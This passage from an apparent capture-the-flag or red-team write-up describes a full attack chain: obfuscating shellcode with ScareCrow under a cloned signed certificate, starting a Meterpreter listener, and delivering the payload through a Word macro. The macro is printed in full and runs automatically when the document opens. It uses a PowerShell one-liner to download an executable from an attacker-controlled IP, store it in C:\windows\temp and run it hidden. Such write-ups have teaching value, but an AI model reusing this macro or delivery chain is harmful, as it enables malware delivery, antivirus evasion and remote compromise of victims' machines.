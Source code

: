then pass the raw shellcode to the scarecrow binary along with a random domain name for a cloned signed certificate

<img src="/assets/images/abcctf/scarecrow.png" height="100%" width="100%">

we then created a meterpreter listener using the connection variable of the shellcode as options: “would have preferred Cobalt-strike but its for the BigBoys like InfosecShinobi 🙂”

### DELIVERY

The output of ScareCrow is an obfuscated .exe payload, being at the third stage of the “cyber attack cycle” which is delivery  
we somehow need to get the payload the victim machine and “run” it

We decided to use the old aged Microsoft Word Document with macro in the .docm extension,  
the function of the macro was to run a powershell one-liner that downloads the payload \[Powerpnt.exe\] binary hosted on our machine, store it in C:\\windows\\temp\\ and then run it

> Sub Document\_Open()  
> MyMacro  
> End Sub
> 
> Sub AutoOpen()  
> MyMacro  
> End Sub
> 
> Sub MyMacro()  
> Dim str As String  
> str = “powershell iwr -uri [http://x.x.x.x/](http://20.87.43.15/OutLook.exe)Powerpnt.exe -o c:\\windows\\temp\\Powerpnt.exe; c:\\windows\\temp\\Powerpnt.exe”  
> GetObject**(**“winmgmts:”**)**.Get**(**“Win32\_Process”**)**.Create str, Null, Null, pid  
> Shell str, vbHide  
> End Sub
